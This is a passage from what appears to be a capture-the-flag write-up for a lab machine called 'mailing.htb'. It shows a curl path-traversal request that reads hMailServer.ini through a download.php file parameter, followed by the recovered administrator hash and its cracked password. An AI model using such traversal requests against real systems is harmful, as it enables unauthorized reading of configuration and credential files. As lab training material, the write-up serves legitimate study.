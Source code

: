 ![](screenshots/dumb_information.png)

We then test this new location, making sure to encode spaces with `%20` and properly closing the x86 parenthesis:

```bash
curl -s -X GET 'http://mailing.htb/download.php?file=..\..\..\..\program%20files%20(x86)\hMailServer\Bin\hMailServer.ini'
```

![](screenshots/curl_server_ini.png)

Credentials retrieved:

- Administrator: `841bb5acfa6779ae432fd7a4e6600ba7`  
- Password: `homenetworkingadministrator`  

Cracked with CrackStation:

![](screenshots/curl_admin_passwd.png)  
